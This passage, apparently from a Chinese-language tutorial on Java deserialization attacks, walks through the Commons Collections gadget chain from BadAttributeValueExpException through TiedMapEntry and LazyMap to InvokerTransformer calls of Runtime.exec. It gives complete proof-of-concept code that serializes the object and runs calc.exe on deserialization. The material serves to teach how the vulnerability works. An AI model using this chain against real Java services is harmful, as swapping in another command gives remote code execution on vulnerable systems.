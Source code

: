   让我们看看这个类，首先是`toString()`中调用了`getValue()`,`getValue()`中实际是`map.get(key)`,这样一来我们就构建起了整个调用链接了

  **使用方式**

  让我们从被序列化的类展开来看
  BadAttributeValueExpException 中的属性 Object val --> TiedMapEntry
  TiedMapEntry 的 toString() 方法调用了自身 map 属性的 getValue() 方法 --> LazyMap
  LazyMap 的 getValue 拿到的必然是一个空对象,因此会触发 LazyMap 属性中配置的 Transformer.transform()
  Transformer 是我们构建的包含有恶意代码的对象

  组合后使用的代码如下所示

  ```Java
  public class BadExceptionTest {

      public static void main(String[] args) throws Exception {
          new BadExceptionTest().run();
      }

      public void run() throws Exception {
          deserialize(serialize(getObject()));
      }

      //在此方法中返回恶意对象
      public Object getObject() throws Exception {
          //构建恶意代码
          String command="calc.exe";
          final String[] execArgs = new String[] { command };
          final Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[] {
                          String.class, Class[].class }, new Object[] {
                          "getRuntime", new Class[0] }),
                  new InvokerTransformer("invoke", new Class[] {
                          Object.class, Object[].class }, new Object[] {
                          null, new Object[0] }),
                  new InvokerTransformer("exec",
                          new Class[] { String.class }, execArgs)
          };
          Transformer transformer=new ChainedTransformer(transformers);

          final Map lazyMap = LazyMap.decorate(new HashMap(), transformer);

          TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
          BadAttributeValueExpException val = new BadAttributeValueExpException(null);

          //利用反射的方式来向对象传参
          Field valfield = val.getClass().getDeclaredField("val");
          valfield.setAccessible(true);
          valfield.set(val, entry);
          return val;
      }

      public  byte[] serialize(final Object obj) throws IOException {
          ByteArrayOutputStream out = new ByteArrayOutputStream();
          ObjectOutputStream objOut = new ObjectOutputStream(out);
          objOut.writeObject(obj);
          return out.toByteArray();
      }

      public  Object deserialize(final byte[] serialized) throws IOException, ClassNotFoundException {
          ByteArrayInputStream in = new ByteArrayInputStream(serialized);
          ObjectInputStream objIn = new ObjectInputStream(in);
          return objIn.readObject();
      }
  ```